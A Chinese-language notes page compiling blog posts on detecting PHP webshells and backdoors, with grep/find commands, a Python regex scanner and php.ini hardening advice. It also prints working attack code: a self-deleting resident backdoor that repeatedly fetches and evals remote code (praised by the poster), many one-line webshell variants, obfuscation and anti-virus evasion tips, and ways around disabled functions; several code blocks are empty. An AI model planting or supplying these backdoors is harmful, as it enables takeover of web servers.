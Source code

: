 * 寻找 PHP（网站）挂马，后门
  
php 后门木马常用的函数大致上可分为四种类型：
1. 执行系统命令: system, passthru, shell_exec, exec, popen, proc_open
2. 代码执行与加密: eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13
3. 文件包含与生成: require, require_once, include, include_once, file_get_contents, file_put_contents, fputs, fwrite
4. .htaccess: SetHandler, auto_prepend_file, auto_append_file

二
想找一个 关键词是“hellow word” 在哪些文件中有，我们用 grep 命令
grep --color -i -r -n "hellow word"  /data/www/

假设最后更新是 10 天前我们可以查找 10 天内生成的可以 php 文件:

find /var/www/ -name “*.php” -mtime -10

也可以通过关键字的形式查找 常见的木马常用代码函数 eval,shell_exec,passthru,popen,system

find /var/www/ -name “*.php” |xargs grep “eval” |more
find /var/www/ -name “*.php” |xargs grep “shell_exec” |more
find /var/www/ -name “*.php” |xargs grep “passthru” |more

还有查看 access.log 当然前提是你网站的所有 php 文件不是很多的情况下

一句话查找 PHP 木马
# find ./ -name “*.php” |xargs egrep “phpspy|c99sh|milw0rm|eval(gunerpress|eval(base64_decode|spider_bc”> /tmp/php.txt
# grep -r –include=*.php ’[^a-z]eval($_POST’ . > /tmp/eval.txt
# grep -r –include=*.php ’file_put_contents(.*$_POST[.*]);’ . > /tmp/file_put_contents.txt
# find ./ -name “*.php” -type f -print0 | xargs -0 egrep “(phpspy|c99sh|milw0rm|eval(gzuncompress(base64_decode|eval(base64_decode|spider_bc|gzinflate)” | awk -F: ‘{print $1}’ | sort | uniq
查找最近一天被修改的 PHP 文件
# find -mtime -1 -type f -name *.php

六

以下其实是多余的操作了其实，但是还是有值得看的地方


，检查代码。

肯定不是一个文件一个文件的检查，Linxu 有强悍的命令

grep ‘eval’ * -R 全盘搜索当前目录所有文件（包含子目录）中带有 eval 的文件，这条可以快速查找到被挂马的文件。

关于 eval，请自行 google 一句话 php 代码。

2，查看日志。

* 捡了一个非常淫荡的 PHP 后门，给跪了
  <?php

unlink($_SERVER['SCRIPT_FILENAME']);

ignore_user_abort(true);

set_time_limit(0);

$remote_file = 'http://xxx/xxx.txt';

while($code = file_get_contents($remote_file)){

@eval($code);

sleep(5);

};

?>

后门的代码第一行删除自身，然后驻留在后台内存里（关于 ignore_user_abort 函数，百度一下），等待外部链接

在 xxx.txt 中写入你的后门代码，访问后就会删除自己并循环执行 txt 的代码 


例如 txt 里面写了一句这样的代码 file_put_contents('./1.php',"<?php @eval($_POST[cmd])'"?>");


这样就会在目录下又生成一个木马


如果对方写了是执行命令 。。。

这段代码纯粹变成了一个等待命令的木马。。


而且管理员检查木马文件的时候  都找不到。。。


因为文件已经删除了



木马却注入在 php-fpm 内


sleep(5);  五秒就去远程读取一下指令。。。

........

打算将代码修改一下，加一些正则，去 163 某一篇新闻的评论里读取预先设定的恶意代码。。。hehe。。。


黑客连服务器都省了。。。



黑客只需要去网易新闻评论窗口内写入自己的代码就行


怕别人看懂？


直接加密


采用对称加密算法。。没有秘钥 谁也看不懂啥意思


秘钥在这段后门里面写着


所以非常安全



活生生就是一个远控木马啊！！

这么好的思路，给作者一个大赞

* 如何查找 php 木马后门高级篇

jusker (爱好后门后门分析) | 2014-05-17 11:54

<?php eval($_POST[xiao])?> # 在正常的编程中 eval 不常见，可通过字符串匹配查找 eval

常见的是变成

base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz4=) #同样匹配这个 base64_decode，找到文件之后查看文件内容

这种形式可以绕过，另外还有其他形式

<?php $_GET['eval']($_POST['xiao']);?>#同样这断你可以如果一个文件中出现 eval，或者文件中同时出现$_GET $_POST 则输出文

件位置

if(key($_GET)=='singyea')call_user_func($_GET['singyea'],$_POST['singyea'])；

<?php $_GET['a']($_POST['b']);?> #这几种就比较猥琐

test.php?a=assert

密码 b

<?php assert($_POST[s]);?>#直接匹配 assert

<?php $_POST['iso']($_POST['cmd']);?>#匹配文件中同时拥有两个 POST 的直接输出文件位置

密码 cmd 菜刀配置信息填:<O>iso=assert</O

preg_replace("/[pageerror]/e",$_POST['error'],"saft"); #这种就是同时一个文件里有 preg_replace 跟 POST 直接输出文件位置然后手工查找

@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null); 与上面一样的匹配方式

<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?

$s = create_function('', $_REQUEST['c']);

$s();

// s.php?c=eval%28$_REQUEST[cmd]%29;&cmd=echo%201;

?>

<?php file_put_contents(base64_decode(文件名), base64_decode(小马 base64));?>

对于 webshell 的一句话查杀只需要找到以上基本就可以解决

然后对于大马来说有 fread,fwrite,mkdir,system,eval，basename 一些函数，可查 php filesystem 函数，如果有这个函数匹配是否存可以代码

最后一个就是查找 fsocket 跟 socket 函数

这个是用来查打流量的函数 ddos 之类


* [[https://www.cnblogs.com/chenpingzhao/p/6562415.html][PHP安全之webshell和后门检测 - 踏雪无痕SS - 博客园]] :website:

** Article

基于 PHP 的应用面临着各种各样的攻击：

-  XSS：对 PHP 的 Web 应用而言，跨站脚本是一个易受攻击的点。攻击者可以利用它盗取用户信息。你可以配置 Apache，或是写更安全的 PHP 代码（验证所有用户输入）来防范 XSS 攻击

-  SQL 注入：这是 PHP 应用中，数据库层的易受攻击点。防范方式同上。常用的方法是，使用 mysql\_real\_escape\_string()对参数进行转义，而后进行 SQL 查询。

-   *文件上传*：它可以让访问者在服务器上放置（即上传）文件。这会造成例如，删除服务器文件、数据库，获取用户信息等一系列问题。你可以使用 PHP 来禁止文件上传，或编写更安全的代码（如检验用户输入，只允许上传 png、gif 这些图片格式）

-   *包含本地与远程文件*：攻击者可以使远程服务器打开文件，运行任何 PHP 代码，然后上传或删除文件，安装后门。可以通过取消远程文件执行的设置来防范

-   *eval/assert*：这个函数可以使一段字符串如同 PHP 代码一样执行。它通常被攻击者用于在服务器上隐藏代码和工具。通过配置 PHP，取消 eval 等函数调用来实现

-  Sea-surt Attack（Cross-site request forgery，CSRF。跨站请求伪造）：这种攻击会使终端用户在当前账号下执行非指定行为。这会危害终端用户的数据与操作安全。如果目标终端用户的账号用于管理员权限，整个 Web 应用都会收到威胁。

这里介绍上述加粗的几种攻击的方法

*** 一、各种 webshell


随着业务量的增大，越来越多的黑客来攻击扫描，网站安全性日益重要，一不留神就被黑客控制了服务器，最常见的方式就是通过 POST 请求来上传木马文件，从而达到可以执行任意命令，如果被控制就大事不妙了

所以还是要正视服务器的安全

最流行的一种后门叫做一句话木马，其形式如下所示：

#+BEGIN_EXAMPLE
#+END_EXAMPLE

这种容易被安全软件检测出来。为了增强隐蔽性，出现了各种一句话木马的变形，通过各种函数来伪装， *这里不得不吐槽 PHP 弱类型对于安全来说是致命的*

**** a、使用 str\_replace 函数


#+BEGIN_EXAMPLE

    //说明：请求参数  ?code=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
    最终执行命令")）?>
#+END_EXAMPLE

**** b、使用 str\_rot13 函数


#+BEGIN_EXAMPLE
    //说明：首先，将eval函数用str_rot13('riny')隐藏。然后，利用 e 修饰符，在preg_replace完成字符串替换后，使得引擎将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。
#+END_EXAMPLE

**** c、使用 include 函数


#+BEGIN_EXAMPLE

    //由于include方法可以直接编译任何格式的文件为php格式运行，因此可以上传一个txt格式的php文件，将真正的后门写在文本当中。
#+END_EXAMPLE

**** d、使用 pack 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

*** e、使用 session


#+BEGIN_EXAMPLE

     f、隐藏在html页面
     
     

    404 Not Found

    Not Found
    The requested URL was not found on this server.

#+END_EXAMPLE

**** g、使用 assert 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

**** 或者


#+BEGIN_EXAMPLE

     h、使用copy函数复制文件
     
     

     二、代码混淆
     
      
#+END_EXAMPLE

或者

#+BEGIN_EXAMPLE
#+END_EXAMPLE

可以使用 weevely 工具来生成，代码伪装避开各种主流的杀毒软件

#+BEGIN_QUOTE
  PHP 后门生成工具 weevely

  weevely 是一款针对 PHP 的 webshell 的自由软件，可用于模拟一个类似于 telnet 的连接 shell，weevely 通常用于 web 程序的漏洞利用，隐藏后门或者使用类似 telnet 的方式来代替 web 页面式的管理，weevely 生成的服务器端 php 代码是经过了 base64 编码的，所以可以骗过主流的杀毒软件和 IDS，上传服务器端代码后通常可以通过 weevely 直接运行。

  weevely 所生成的 PHP 后门所使用的方法是现在比较主流的 base64 加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，被作为检查规则的 eval，system 等函数都不会直接出现在代码中，从而可以致使后门文件绕过后门查找工具的检查。使用暗组的 Web 后门查杀工具进行扫描，结果显示该文件无任何威胁。
#+END_QUOTE

更常用的混淆视听的方法:（这种是服务器层面的混淆）

-  修改文件时间

-  改名融入上传后所在文件夹，让人无法直观看出文件异常

-  文件大小的伪装处理(至少看起大小像个正常脚本)

-  选好藏身路径并尽量少的访问

-  畸形目录%20

*** 三、如果绕过配置文件


一般的服务器管理员会把 system、exec 等危险函数禁用的，那么如何绕过呢？

*** 1、使用反射


相关内容可参考： [[http://cn2.php.net/manual/en/reflectionfunction.invokeargs.php]]。

#+BEGIN_EXAMPLE
    invokeArgs(array("$_GET[c]"));
    ?>
#+END_EXAMPLE

**** 2、使用 callback


php 提供的另外一种可间接调用函数的方法是 callback. 这里使用了 ob\_start.具体说明可参考：http://www.php.net/manual/en/function.ob-start.php

#+BEGIN_EXAMPLE
#+END_EXAMPLE

php 中支持 callback 的函数还有很多，比如 array\_map,array\_filter, array\_reduce,usort(),uksort(),array\_walk() 等

*** 四、安全人员应该怎么做


*** 1、如何查找


直观寻找方式也有很多

-  通过文件名/修改时间/大小，文件备份比对发现异常（SVN/Git 对比，查看文件是否被修改）

-  通过 WEBSHELL 后门扫描脚本发现，如 Scanbackdoor.php/Pecker/shelldetect.php/（zhujiweishi ）

-  通过 access.log 访问日志分析

下面是 360 zhujiweishi ，在 linux 服务器上非常简单好用

[[https://images2015.cnblogs.com/blog/268981/201703/268981-20170317102649479-757410709.jpg]]

通过常见的关键词如（可以使用 find 和 grep 等命令结合起来搜索代码中是否包含以下文件）

-  系统命令执行: system, passthru, shell\_exec, exec, popen, proc\_open

-  代码执行: eval, assert, call\_user\_func,base64\_decode, gzinflate, gzuncompress, gzdecode, str\_rot13

-  文件包含: require, require\_once, include, include\_once, file\_get\_contents, file\_put\_contents, fputs, fwrite

通过简单的 python 脚本

#+BEGIN_EXAMPLE
    #!/usr/bin/env python
    # encoding: utf-8
     
    import os,sys
    import re
    import hashlib
    import time
     
    rulelist = [
        '(\$_(GET|POST|REQUEST)\[.{0,15}\]\s{0,10}\(\s{0,10}\$_(GET|POST|REQUEST)\[.{0,15}\]\))',
        '((eval|assert)(\s|\n)*\((\s|\n)*\$_(POST|GET|REQUEST)\[.{0,15}\]\))',
        '(eval(\s|\n)*\(base64_decode(\s|\n)*\((.|\n){1,200})',
        '(function\_exists\s*\(\s*[\'|\"](popen|exec|proc\_open|passthru)+[\'|\"]\s*\))',
        '((exec|shell\_exec|passthru)+\s*\(\s*\$\_(\w+)\[(.*)\]\s*\))',
        '(\$(\w+)\s*\(\s.chr\(\d+\)\))',
        '(\$(\w+)\s*\$\{(.*)\})',
        '(\$(\w+)\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\s*\))',
        '(\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\(\s*\$(.*)\))',
        '(\$\_\=(.*)\$\_)',
        '(\$(.*)\s*\((.*)\/e(.*)\,\s*\$\_(.*)\,(.*)\))',
        '(new com\s*\(\s*[\'|\"]shell(.*)[\'|\"]\s*\))',
        '(echo\s*curl\_exec\s*\(\s*\$(\w+)\s*\))',
        '((fopen|fwrite|fputs|file\_put\_contents)+\s*\((.*)\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\](.*)\))',
        '(\(\s*\$\_FILES\[(.*)\]\[(.*)\]\s*\,\s*\$\_(GET|POST|REQUEST|FILES)+\[(.*)\]\[(.*)\]\s*\))',
        '(\$\_(\w+)(.*)(eval|assert|include|require|include\_once|require\_once)+\s*\(\s*\$(\w+)\s*\))',
        '((include|require|include\_once|require\_once)+\s*\(\s*[\'|\"](\w+)\.(jpg|gif|ico|bmp|png|txt|zip|rar|htm|css|js)+[\'|\"]\s*\))',
        '(eval\s*\(\s*\(\s*\$\$(\w+))',
        '((eval|assert|include|require|include\_once|require\_once|array\_map|array\_walk)+\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER|SESSION)+\[(.*)\]\s*\))',
        '(preg\_replace\s*\((.*)\(base64\_decode\(\$)'
        ]
     
    def scan(path):
        print('           可疑文件         ')
        print('*'*30)
        for root,dirs,files in os.walk(path):
            for filespath in files:
                if os.path.getsize(os.path.join(root,filespath))<1024000:
                    file= open(os.path.join(root,filespath))
                    filestr = file.read()
                    file.close()
                    for rule in rulelist:
                        result = re.compile(rule).findall(filestr)
                        if result:
                            print '文件:'+os.path.join(root,filespath )
                            print '恶意代码:'+str(result[0][0:200])
                            print ('最后修改时间:'+time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(os.path.getmtime(os.path.join(root,filespath)))))
                            print '\n\n'
                            break
    def md5sum(md5_file):
        m = hashlib.md5()
        fp = open(md5_file)
        m.update(fp.read())
        return m.hexdigest()
        fp.close()
     
    if md5sum('/etc/issue') == '3e3c7c4194b12af573ab11c16990c477':
        if md5sum('/usr/sbin/sshd') == 'abf7a90c36705ef679298a44af80b10b':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if md5sum('/etc/issue') == '6c9222ee501323045d85545853ebea55':
        if md5sum('/usr/sbin/sshd') == '4bbf2b12d6b7f234fa01b23dc9822838':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if __name__=='__main__':
     
        if len(sys.argv)!=2:
            print '参数错误'
            print "\t按恶意代码查找:"+sys.argv[0]+'目录名'
        if os.path.lexists(sys.argv[1]) == False:
            print "目录不存在"
            exit()
        print ('\n\n开始查找:'+sys.argv[1])
        if len(sys.argv) ==2:
            scan(sys.argv[1])
        else:
            exit()
#+END_EXAMPLE

**** 2、如何防范


**** php.ini 设置


-  disable\_functions =phpinfo,passthru,exec,system,chroot,scandir,chgrp,chown,shell\_exec,proc\_open,proc\_get\_status,ini\_alter,ini\_alter,ini\_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream\_socket\_server,get\_current\_user,leak,putenv,popen,opendir

-  设置“safe\_mode”为“on”

-  禁止“open\_basedir” 可以禁止指定目录之外的文件操作

-  expose\_php 设为 off 这样 php 不会在 http 文件头中泄露信息

-  设置“allow\_url\_fopen”为“off” 可禁止远程文件功能

-  log\_errors”设为“on” 错误日志开启

**** php 编码方面


-  所有用户提交的信息 post get 或是其他形式提交的数据 都要单独写个过滤函数处理一遍，养成习惯(intval，strip\_tags，mysql\_real\_escape\_string)

-  经常检查有没有一句话木马 eval($\_POST[ 全站搜索 php 代码有没有这样的源代码

-  文件要命名规范 至少让自己可以一目了然，哪些 php 文件名字有问题

-  如用开源代码，有补丁出来的话，尽快打上补丁

-  如果攻击者拿到了服务器的最高权限，有可能通过修改服务器的配置文件 php.ini 来达到他们隐藏后门的目的，前几年比较流行。原理如下：php.ini 里面的这两个配置项：auto\_prepend\_file ，auto\_append\_file 可以让 php 解析前，自己加点东西进去 Automatically add files before or after any PHP document,如果被配置了 eval()函数的后门 那就很阴险了，php 文件代码里面查不出，只会在 php 解析前包含 eval()函数进来 并且因为是全局的 所以所有 php 页面都是后门！所以要先确认 auto\_prepend\_file ，auto\_append\_file 没被配置成其他东西，才进行第 3 点的源代码检查。

**** 服务器配置


配置的时候尽量使用最小权限，不要写入或者执行的目录不能给相应的权限

nginx 或者 apache 配置的时候，不能访问的目录一定要配置为 deny

待续。。。

参考文章

https://github.com/chenpingzhao/php-webshells

http://blog.csdn.net/miltonzhong/article/details/9714367

http://blog.jobbole.com/53821/
